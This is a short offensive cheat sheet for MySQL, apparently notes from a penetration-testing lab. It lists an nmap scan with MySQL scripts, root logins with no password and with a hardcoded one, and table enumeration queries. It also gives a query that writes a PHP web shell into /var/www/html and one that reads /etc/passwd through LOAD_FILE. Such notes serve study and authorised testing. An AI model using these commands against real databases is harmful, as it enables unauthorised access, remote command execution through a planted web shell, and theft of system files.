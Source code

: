 1. Nmap: `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`
2. Interaction with MySQL:
    1. without pass: `mysql -u root -h 10.129.14.132`
    2. with pass: `mysql -u root -pP4SSw0rd -h 10.129.14.128`
3. Commands:
```bash
show databases;
select version();
use mysql;
show tables;
show columns from <table>;
select * from <table>;
select * from <table> where <column> = "<string>";
```
4. `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';`
5. `show variables like "secure_file_priv";`
6. MySQL - Read Local Files in MySQL: `select LOAD_FILE("/etc/passwd");`